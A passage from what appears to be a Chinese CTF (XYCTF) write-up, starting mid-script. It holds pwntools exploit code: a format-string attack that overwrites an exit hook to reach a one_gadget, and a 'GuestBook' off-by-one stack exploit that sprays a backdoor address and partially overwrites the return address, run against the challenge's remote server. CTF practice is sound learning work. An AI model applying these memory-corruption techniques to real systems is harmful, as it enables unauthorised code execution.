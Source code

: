 ```python
cannary = libc_base +2045376+0x28 -0x8
print("cannary:",hex(cannary))
# %7$d 就是rsp+8
# 第一次构造
# payload = b"%64s%13$s".ljust(0x8,b"a")+p64(cannary)*3
payload =b"%7$ld".ljust(8,b"\x00")+p64(exit_hook_addr)
# payload =b"%13$s"
sd(payload)
payload=str(one_gadget).encode()
input(":")
# payload = b"d"*0x38+p64(cannary)+b"c".ljust(32,b"c")
sl(payload)
ia()
```

## GuestBook

> 存在栈的off_by_one漏洞 我们通过提前在栈里面写满backdoor地址 然后通过修改返回地址最后一个字节 来实现栈迁移返回到存放backdoor的栈地址上 只要写满了 概率还挺大 然后就可以在第二次返回的时候触发backdoor函数

![image-20240422213216922](https://awaqwqa.github.io/img/xyctf/image-20240422213216922.png)

```python
import time

from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = "xyctf.top"
port = 34019

# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *0x401321")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def add(index,name,id):
    ru(b"index\n")
    sl(str(index).encode())
    ru(b"name:\n")
    sd(name)
    ru(b"id:\n")
    sl(id)
backdoor = 0x40133A
for i in range(0,31):
    add(i,p64(backdoor)*2,b"0")
add(32,b"\x3a\x13\x40",b"48")
```